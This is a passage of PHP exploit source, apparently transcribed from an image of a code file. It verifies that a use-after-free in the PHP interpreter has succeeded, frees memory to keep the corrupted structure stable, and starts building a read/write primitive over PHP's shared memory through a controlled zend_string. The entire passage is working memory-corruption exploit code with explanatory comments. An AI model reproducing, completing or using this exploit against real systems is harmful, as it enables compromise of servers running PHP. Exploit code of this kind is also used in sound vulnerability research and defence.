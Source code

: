             # Verify UAF was successful
            # We modified stuff via $x; they should be visible by $this->abc, since
            # they are at the same memory location.
            if(!(
                strlen($this->abc) === $x->d &&
                $this->abc[0] == "\x10" &&
                $this->abc[1] == "\x11" &&
                $this->abc[2] == "\x12" &&
                $this->abc[3] == "\x13"
            ))
            {
                o('UAF failed, exiting.');
                exit();
            }
            o('UAF successful.');
            o('');

            # Give us some room
            # I: As indicated before, just unset a lot of stuff so that next allocs
            # don't break our fragile UAFd structure.
            unset($room);

            #
            # Setup the R/W primitive
            #

            # We control $abc's internal zend_string structure, therefore we can R/W
            # the shared memory block (SHM), but for that we need to know the
            # position of $abc in memory
            # I: We know the absolute position of the SHM, so we need to need abc's
            # as well, otherwise we cannot compute the offset
